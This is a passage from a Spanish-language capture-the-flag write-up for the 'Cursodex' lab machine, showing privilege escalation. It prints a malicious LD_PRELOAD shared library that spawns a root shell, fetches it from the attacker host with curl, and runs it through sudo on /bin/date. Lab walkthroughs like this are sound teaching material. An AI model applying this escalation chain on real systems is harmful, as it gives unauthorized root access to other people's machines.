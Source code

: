 ```bash
www-data@cursodex:/tmp$ su agent
Password: 
agent@cursodex:/tmp$ sudo -l
Matching Defaults entries for agent on cursodex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

Runas and Command-specific defaults for agent:
    Defaults!/bin/date env_keep+=LD_PRELOAD

User agent may run the following commands on cursodex:
    (ALL) PASSWD: /bin/date
```

Podemos ejecutar el binario `date` como usuario `root`. Según GTFOBins, esto permite la lectura privilegiada de ficheros, pero en este caso no nos será útil. Debemos fijarnos en la opción `env_keep+=LD_PRELOAD`, que nos permitirá inyectar una librería maliciosa.

Creamos y compilamos una librería en nuestra máquina atacante, después levantamos un servicio HTTP para compartir el binario.

```bash
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/Cursodex]
└─$ cat exploit.c                        
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init() {
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
                                                    
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/Cursodex]
└─$ gcc -shared -fPIC -o exploit.so exploit.c
                                                    
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/Cursodex]
└─$ python3 -m http.server 80
```

En nuestra máquina víctima obtenemos el binario `exploit.so` con `curl` y lo guardamos en `/tmp`.

```bash
curl -o /tmp/exploit.so http://192.168.1.181/exploit.so
```

y ejecutamos `date` con `sudo`, utilizando nuestra librería mediante la variable de entorno `LD_PRELOAD`.

```bash
sudo LD_PRELOAD=/tmp/exploit.so /bin/date
```

Obtenemos una shell como usuario `root` y podemos leer la flag:

```bash
root@cursodex:/tmp# ls /root
root?????.txt
root@cursodex:/tmp# cat /root/root?????.txt 
8?????????????????????????????
```

Espero que les haya gustado y que hayan aprendido algo.
